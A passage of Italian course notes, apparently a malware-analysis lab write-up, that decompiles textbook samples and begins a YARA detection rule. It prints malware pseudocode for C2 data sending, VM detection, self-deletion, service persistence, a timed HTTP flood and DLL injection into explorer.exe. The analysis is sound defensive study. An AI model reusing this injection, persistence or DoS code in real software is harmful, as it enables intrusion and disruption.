memset(Data, 0, sizeof(Data));
if ( !RegQueryValueExA(phkResult, aWorktimes, 0, &Type, Data, &cbData) )
{
  v4 = atoi((const char *)Data);
  sprintf(Buffer, "\r\n\r\n[Robot_WorkTimes:] %d\r\n\r\n", v4);
  v5 = strlen(Buffer);
  sub_100038EE(s, (int)Buffer, v5);
}
\end{lstlisting}

  \item Viene infine chiusa la chiave di registro:
\begin{lstlisting}[language=C]
RegCloseKey(phkResult);
\end{lstlisting}
\end{enumerate}

La subroutine \texttt{sub\_100038EE} contiene il codice per offuscare i dati tramite operazione di addizione ed inviarli al server remoto:

\begin{lstlisting}[language=C]
int __cdecl sub_100038EE(SOCKET s, int a2, int len)
{
  int v3; // edi
  char *v4; // eax
  int v5; // edx
  char *v6; // esi
  char *v7; // ecx
  int v8; // eax
  int v9; // eax
  int v10; // edi

  v3 = len;
  v4 = (char *)malloc(len + 1);
  v5 = 0;
  v6 = v4;
  if ( len > 0 )
  {
    v7 = v4;
    v8 = a2 - (_DWORD)v4;
    v5 = len;
    do
    {
      *v7 = dword_1008E5D0 + v7[v8];
      ++v7;
      --len;
    }
    while ( len );
  }
  v6[v5] = 0;
  v9 = send(s, v6, v3, 0);
  v10 = -1;
  if ( v9 != -1 )
    v10 = v9;
  free(v6);
  return v10;
}
\end{lstlisting}

\subsubsection{Cosa fa l'export \texttt{PSLIST}?}

La funzione export \texttt{PSLIST} stampa tutti i processi attualmente in esecuzione all'interno della macchina. Se viene passato un processo specifico tramite la stringa in ingresso, viene stampato solamente quello.

\begin{lstlisting}[language=C]
int __stdcall PSLIST(int a1, int a2, char *Str, int a4)
{
  int result; // eax

  dword_1008E5BC = 1;
  result = sub_100036C3();
  if ( result )
  {
    if ( strlen(Str) )
      result = sub_1000664C(0, Str);
    else
      result = sub_10006518(0);
  }
  dword_1008E5BC = 0;
  return result;
}
\end{lstlisting}

\subsubsection{Q3: Quali funzioni API vengono invocate all'interno della subroutine \texttt{0x10004E79}? Come è possibile rinominare la funzione?}

La funzione invoca la chiamata API \texttt{GetSystemDefaultLangID}, che fornisce la lingua di sistema, e la invia al server remoto tramite socket. Basandosi su questa API, è possibile rinominare la funzione in \texttt{GetVictimLanguage}.

\subsubsection{Q4: Quali funzioni API Windows chiama direttamente \texttt{DllMain}? Quali invece a profondità 2?}

Viene usata direttamente la chiamata API \texttt{CreateThread}.

La funzione creata da \texttt{CreateThread} invoca a sua volta altre subroutine:
\begin{itemize}
  \item \textbf{\texttt{0x10001074} e \texttt{0x10001365}}: 5 API (\texttt{WinExec}, \texttt{Sleep}, \texttt{gethostbyname}, \texttt{inet\_addr}, \texttt{inet\_ntoa})
  \item \textbf{\texttt{0x10001656}}: 20 API (\texttt{WSAStartup}, \texttt{WSAGetLastError}, \texttt{socket}, \texttt{gethostbyname}, \texttt{inet\_addr}, \texttt{inet\_ntoa}, \texttt{ntohs}, \texttt{connect}, \texttt{send}, \texttt{recv}, \texttt{select}, \texttt{closesocket}, \texttt{Sleep}, \texttt{LoadLibraryA}, \texttt{GetProcAddress}, \texttt{CreateThread}, \texttt{CloseHandle}, \texttt{FreeLibrary}, \texttt{ExitThread})
\end{itemize}

\subsubsection{Q5: Nella chiamata \texttt{Sleep} in \texttt{0x10001358}, per quanto tempo il programma va in riposo prima di riprendere l'esecuzione?}

\begin{lstlisting}[language=C]
v14 = atoi(off_10019020[0] + 13);
Sleep(1000 * v14); 
\end{lstlisting}

Nella \texttt{Sleep} viene preso in ingresso il valore collocato in \texttt{off\_10019020}, che corrisponde alla stringa \texttt{[This is CTI]30}. In altre parole, viene estratta la cifra dopo la parentesi quadra. Pertanto, la \texttt{Sleep} dura 30 secondi.

\subsubsection{Q6-7: A \texttt{0x10001701} c'è una chiamata a \texttt{socket}, quali sono i parametri?}

La chiamata a \texttt{socket} prende in ingresso tre parametri (\textit{af}, \textit{type}, \textit{protocol}). In questo caso vengono usati i valori (2, 1, 6):

\begin{itemize}
  \item \textbf{af}: Viene usata la famiglia di indirizzi IPv4 (\texttt{AF\_INET} = 2).
  \item \textbf{type}: La tipologia di socket è \texttt{SOCK\_STREAM} (1), per flussi di byte sequenziali e affidabili (TCP).
  \item \textbf{protocol}: Il protocollo specificato è TCP (\texttt{IPPROTO\_TCP} = 6).
\end{itemize}

Viene quindi utilizzata una socket TCP IPv4 standard per connettersi al server di comando e controllo (C2).

\subsubsection{Q8: Cerca l'istruzione \texttt{IN(0xED)}, usata insieme alla stringa \texttt{VMXh} per effettuare la detection di macchine virtuali. Viene utilizzata? Se sì, ci sono altri casi di VM detection?}

Effettuando la ricerca binaria in IDA Pro:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/find_in.png}
  \caption{Ricerca dell'istruzione \texttt{IN} in IDA Pro}
\end{figure}

Troviamo che l'istruzione \texttt{IN} viene effettivamente utilizzata:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/in_found.png}
  \caption{Istruzione \texttt{IN} individuata nella subroutine \texttt{sub\_10006196}}
\end{figure}

Questa istruzione fa parte della subroutine \texttt{sub\_10006196}. Viene usata da tre funzioni di installazione principali: \texttt{InstallRT}, \texttt{InstallSB} e \texttt{InstallSA}. Ciascuna di queste funzioni esegue il seguente controllo:

\begin{lstlisting}[language=C]
if ( atoi(off_10019034[0] + 13) && ((unsigned __int8)sub_10006119() || sub_10006196()) )
{
  sub_10003592(byte_1008E5F0, v5);
  sub_10003592(aFoundVirtualMa, v6);
  return sub_10005567();
}
\end{lstlisting}

Questa logica permette di individuare la presenza di una macchina virtuale. Dopodiché:

\begin{itemize}
  \item In \texttt{sub\_10003592} viene loggato il fatto che il malware ha rilevato l'ambiente virtuale:
\begin{lstlisting}[language=C]
va_start(va, Format);
if ( atoi(off_10019028[0] + 13) )
{
  vsnprintf(Buffer, 0x400u, Format, va);
  StdHandle = GetStdHandle(0xFFFFFFF5);
  if ( StdHandle != (HANDLE)-1 )
  {
    v2 = strlen(Buffer);
    WriteFile(StdHandle, Buffer, v2, &NumberOfBytesWritten, 0);
    WriteFile(StdHandle, ::Buffer, 2u, &NumberOfBytesWritten, 0);
  }
  v3 = fopen(FileName, aA);
  if ( v3 )
  {
    if ( strlen(Buffer) )
    {
      fprintf(v3, "\n%s", Buffer);
    }
    else
    {
      v5 = strtime(v8);
      v4 = strdate(v7);
      fprintf(v3, "\n\n\n[%s %s]", v4, v5);
    }
    fclose(v3);
  }
  OutputDebugStringA(Buffer);
}
\end{lstlisting}

  \item Nella subroutine \texttt{sub\_10005567}, il malware si auto-cancella scrivendo ed eseguendo un file batch (\texttt{selfdel.bat}) che rimuove gli attributi del file e lo elimina dal disco:
\begin{lstlisting}[language=C]
memset(Filename, 0, sizeof(Filename));
memset(Buffer, 0, sizeof(Buffer));
v7 = 0; v8 = 0; v4 = 0; v5 = 0;
GetModuleFileNameA(hModule, Filename, 0x104u);
sprintf(Buffer, aVmselfdelBat);
v0 = fopen(Buffer, aW);
v1 = v0;
if ( v0 )
{
  fprintf(v0, "@echo off\r\n");
  fprintf(v1, ":selfkill\r\n");
  fprintf(v1, "attrib -a -r -s -h \"%s\"\r\n", Filename);
  fprintf(v1, "del \"%s\"\r\n", Filename);
  fprintf(v1, "if exist \"%s\" goto selfkill\r\n", Filename);
  fprintf(v1, "del %%0\r\n");
}
fclose(v1);
return WinExec(Buffer, 0);
\end{lstlisting}
\end{itemize}

\subsubsection{Q9-12: \texttt{0x1001D988} ed esecuzione dello script}

All'indirizzo \texttt{0x1001D988} viene raffigurata una stringa offuscata:
\begin{verbatim}
........-1::'u<&
u!=<&u746>1::'yu
&!'<;2u106:101u3
:'u.'46!<649u.49
"4'0u.;49,&<&u.4
7uo|dgfa........
\end{verbatim}

Viene eseguito lo script indicato che decodifica la stringa tramite un'operazione XOR con la chiave \texttt{0x55}. Otteniamo così il risultato finale:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/string_decoded.png}
  \caption{Stringa decodificata mediante XOR}
\end{figure}

\section{Lab07-01.exe}

Analizziamo lo pseudocodice decompilato del malware:

\begin{lstlisting}[language=C]
int sub_401040()
{
  SC_HANDLE v0; // esi
  HANDLE WaitableTimerA; // esi
  int v2; // esi
  SYSTEMTIME SystemTime; // [esp+0h] [ebp-400h] BYREF
  struct _FILETIME FileTime; // [esp+10h] [ebp-3F0h] BYREF
  CHAR Filename[1000]; // [esp+18h] [ebp-3E8h] BYREF

  if ( OpenMutexA(0x1F0001u, 0, Name) )
    ExitProcess(0);
  CreateMutexA(0, 0, Name);
  v0 = OpenSCManagerA(0, 0, 3u);
  GetCurrentProcess();
  GetModuleFileNameA(0, Filename, 0x3E8u);
  CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, Filename, 0, 0, 0, 0, 0);
  memset(&SystemTime.wMonth, 0, 14);
  SystemTime.wYear = 2100;
  SystemTimeToFileTime(&SystemTime, &FileTime);
  WaitableTimerA = CreateWaitableTimerA(0, 0, 0);
  SetWaitableTimer(WaitableTimerA, (const LARGE_INTEGER *)&FileTime, 0, 0, 0, 0);
  if ( !WaitForSingleObject(WaitableTimerA, 0xFFFFFFFF) )
  {
    v2 = 20;
    do
    {
      CreateThread(0, 0, StartAddress, 0, 0, 0);
      --v2;
    }
    while ( v2 );
  }
  Sleep(0xFFFFFFFF);
  return 0;
}
\end{lstlisting}

\subsection{Q1: Persistence}

La persistenza viene garantita dalla creazione di un servizio di sistema tramite l'API:
\begin{lstlisting}[language=C]
CreateServiceA(v0, DisplayName, DisplayName, 2u, 0x10u, 2u, 0, Filename, 0, 0, 0, 0, 0);
\end{lstlisting}

I parametri fondamentali indicano:
\begin{itemize}
  \item \texttt{dwServiceType} = \texttt{2} $\to$ \texttt{SERVICE\_FILE\_SYSTEM\_DRIVER} (driver di sistema).
  \item \texttt{dwStartType} = \texttt{0x10} $\to$ \texttt{SERVICE\_AUTO\_START} (avvio automatico ad ogni caricamento del sistema operativo).
  \item \texttt{dwErrorControl} = \texttt{2} $\to$ \texttt{SERVICE\_ERROR\_SEVERE}.
\end{itemize}

\subsection{Mutex}

Il malware usa un mutex denominato \texttt{Name} per evitare l'esecuzione simultanea di istanze multiple dello stesso programma, prevenendo così la concorrenza e auto-reinfezioni che potrebbero insospettire l'utente.

\subsection{Signature}

Le firme statiche sono collocate all'interno di una subroutine e comprendono:
\begin{itemize}
  \item \textbf{User-Agent (Browser)}: \texttt{Internet Explorer 8.0}
  \item \textbf{Indirizzo di rete}: \texttt{http://www.malwareanalysisbook.com}
\end{itemize}

Ciò ci permette di comprendere che l'host compromesso contatterà l'indirizzo URL specificato usando Internet Explorer. Una firma network-based consiste nel monitoraggio delle chiamate API \texttt{InternetOpenA} (inizializza l'uso delle funzioni WinINet) ed \texttt{InternetOpenUrlA} per generare traffico verso tale dominio.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/signatures.png}
  \caption{Firme di rete individuate nel binario}
\end{figure}

\subsection{Scopo e termine del programma}

Il programma è progettato per:
\begin{itemize}
  \item Effettuare un'installazione stealth e persistente come servizio ad avvio automatico.
  \item Attendere in modo silente fino all'anno 2100 (\texttt{SystemTime.wYear = 2100}) tramite un timer di attesa (\texttt{SetWaitableTimer}).
  \item Non appena il timer scade (\texttt{WaitForSingleObject} si sblocca), vengono creati 20 thread paralleli che effettuano richieste HTTP incessanti (un attacco DoS) verso l'URL bersaglio. I thread hanno la seguente struttura:
\begin{lstlisting}[language=C]
void __stdcall __noreturn StartAddress(LPVOID lpThreadParameter)
{
  void *i; // esi
  for ( i = InternetOpenA(szAgent, 1u, 0, 0, 0); ; InternetOpenUrlA(i, szUrl, 0, 0, 0x80000000, 0) )
    ;
}
\end{lstlisting}
\end{itemize}

Il programma principale entra in uno stato di sonno infinito (\texttt{Sleep(0xFFFFFFFF)}), ma i 20 thread di attacco continueranno la loro esecuzione in background a tempo indeterminato.

\section{Lab12-01.exe / Lab12-01.dll}

\subsection{Lancio dell'eseguibile}

L'esecuzione del file eseguibile innesca un attacco di tipo \textbf{process injection} (iniezione di codice) che porta alla comparsa ciclica di pop-up di messaggi.

Gli indizi di questo comportamento sono visibili ispezionando la Import Address Table (IAT) tramite Dependency Walker:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injection.png}
  \caption{Importazioni dell'eseguibile correlate all'iniezione di codice}
\end{figure}

L'eseguibile importa funzioni critiche per la manipolazione di processi terzi: \texttt{OpenProcess}, \texttt{VirtualAllocEx}, \texttt{WriteProcessMemory} e \texttt{CreateRemoteThread}.

La DLL iniettata forzatamente tramite la tecnica del \texttt{LoadLibrary} carica ed esegue codice malevolo che fa uso di \texttt{MessageBox} per aprire finestre informative:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injected_1.png}
  \caption{Importazioni della DLL iniettata (parte 1)}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/Injected_2.png}
  \caption{Importazioni della DLL iniettata (parte 2)}
\end{figure}

\subsection{Q2: Processo iniettato}

Analizzando il codice all'interno del disassemblatore, osserviamo che a un certo punto della routine viene effettuato un riferimento esplicito alla stringa \texttt{explorer.exe}, indicando che il malware inietta la DLL all'interno del processo di sistema legittimo della shell di Windows.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injected_process.png}
  \caption{Riferimento al processo \texttt{explorer.exe} in IDA Pro}
\end{figure}

\subsection{Terminare l'iniezione}

Simuliamo l'iniezione usando \texttt{BinText} come processo vittima e iniettando il payload tramite il tool \texttt{Xenos}:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injection_simulation.png}
  \caption{Simulazione dell'iniezione tramite Xenos}
\end{figure}

Utilizzando Process Explorer, possiamo analizzare in dettaglio l'avvenuta iniezione del modulo malevolo nel processo target:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../7.WindowsMalware/img/injection_bintext.png}
  \caption{Verifica dell'iniezione su \texttt{explorer.exe} con Process Explorer}
\end{figure}

Per interrompere l'innesco ciclico dei pop-up, è stato sufficiente riavviare il processo di sistema compromesso ed eliminare fisicamente la DLL dal disco.

\subsection{Scopo del malware}

Esaminando lo pseudocodice del dropper:

\begin{lstlisting}[language=C]
// Step 1: Carica l'API per l'identificazione dei processi
LibraryA = LoadLibraryA(LibFileName);
EnumProcessModules = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(LibraryA, ProcName);
v4 = LoadLibraryA(LibFileName);
GetModuleBaseNameA = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(v4, aGetmodulebasen);
v5 = LoadLibraryA(LibFileName);
EnumProcesses = (int (__stdcall *)(_DWORD, _DWORD, _DWORD))GetProcAddress(v5, aEnumprocesses);

// Step 2: Costruisce il percorso completo della DLL da iniettare
GetCurrentDirectoryA(0x104u, Buffer);
lstrcatA(Buffer, String2);
lstrcatA(Buffer, aLab1201Dll);

// Step 3: Enumera i processi attivi nel sistema
if ( !EnumProcesses(dwProcessId, 4096, &v14) )
  return 1;

// Step 4: Ricerca del processo explorer.exe
v7 = v14 >> 2;
for ( i = 0; i < v7; ++i )
{
  hProcess = 0;
  if ( dwProcessId[i] )
    v17 = sub_401000(dwProcessId[i]);
  if ( v17 == 1 )
  {
    hProcess = OpenProcess(0x43Au, 0, dwProcessId[i]);
    if ( hProcess == (HANDLE)-1 )
      return -1;
    i = 2000;
  }
}

// Step 5: Esegue la process injection
lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x104u, 0x3000u, 4u);
if ( !lpBaseAddress )
  return -1;
WriteProcessMemory(hProcess, lpBaseAddress, Buffer, 0x104u, 0);
hModule = GetModuleHandleA(ModuleName);
lpStartAddress = (LPTHREAD_START_ROUTINE)GetProcAddress(hModule, aLoadlibrarya);
if ( CreateRemoteThread(hProcess, 0, 0, lpStartAddress, lpBaseAddress, 0, 0) )
  return 0;
else
  return -1;
\end{lstlisting}

Il funzionamento del malware si articola in 5 fasi distinte:
\begin{enumerate}
  \item **Risoluzione dinamica delle API**: Carica la libreria \texttt{psapi.dll} per ottenere gli indirizzi delle funzioni di enumerazione moduli e processi.
  \item **Costruzione del path**: Recupera la directory corrente del file system per risalire al file \texttt{Lab12-01.dll}.
  \item **Enumerazione dei processi**: Richiama \texttt{EnumProcesses} per scorrere la lista di tutti i PID attivi.
  \item **Identificazione del target**: Scansiona i nomi dei moduli dei processi tramite la subroutine \texttt{sub\_401000} alla ricerca di \texttt{explorer.exe}. Trovato il processo, ne apre un handle con i privilegi necessari.
  \item **Iniezione della DLL**: Alloca spazio nello spazio di memoria virtuale del target (\texttt{VirtualAllocEx}), vi scrive il percorso della DLL (\texttt{WriteProcessMemory}), recupera l'indirizzo di \texttt{LoadLibraryA} di \texttt{kernel32.dll} ed esegue la libreria forzatamente nel processo target tramite \texttt{CreateRemoteThread}.
\end{enumerate}

\chapter{Malware Detection}

\section{YARA}

\subsection{Lab01-01}

\textbf{Rilevamento di Lab01-01.dll}:

Il primo task ha richiesto l'estrazione di indicatori basati sull'host all'interno della libreria dinamica. Tramite la finestra delle stringhe di IDA Pro (e la verifica delle chiamate all'interno di \texttt{DllMain}), sono stati identificati i seguenti IoC:

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_dll.jpg}
  \caption{Stringhe estratte da \texttt{Lab01-01.dll} in IDA Pro}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_dll_spec.jpg}
  \caption{Dettaglio delle stringhe di rete e comandi}
\end{figure}

Indirizzo IP Hardcoded: \texttt{127.26.152.13}, inserito nello stack prima di specifiche esecuzioni.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_dll_pos_cp.jpg}
  \caption{Caricamento dell'indirizzo IP locale nello stack}
\end{figure}

Nome del Mutex: \texttt{SADFHUHF}, stringa specifica associata alla creazione e apertura di mutex (\texttt{CreateMutexA}, \texttt{OpenMutexA}) per garantire l'esecuzione di una singola istanza del malware.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../8.MalwareDetection/img/stringhe_dll_pos_name.jpg}
  \caption{Riferimento alla stringa del Mutex in IDA Pro}
\end{figure}

Comandi aggiuntivi: Stringhe in chiaro come \texttt{hello}, \texttt{exec} e \texttt{sleep}.

La regola YARA è stata strutturata per scattare qualora vengano individuate almeno due di queste specifiche stringhe all'interno del file analizzato.

Snippet di codice:
\begin{lstlisting}
rule Lab01_01_DLL {
    meta:
        description = "Rilevamento di Lab01-01.dll basato su Mutex e IP"
        author = "Il tuo nome"
    
    strings:
        $mutex = "SADFHUHF"
        $ip = "127.26.152.13"
        $cmd_hello = "hello"
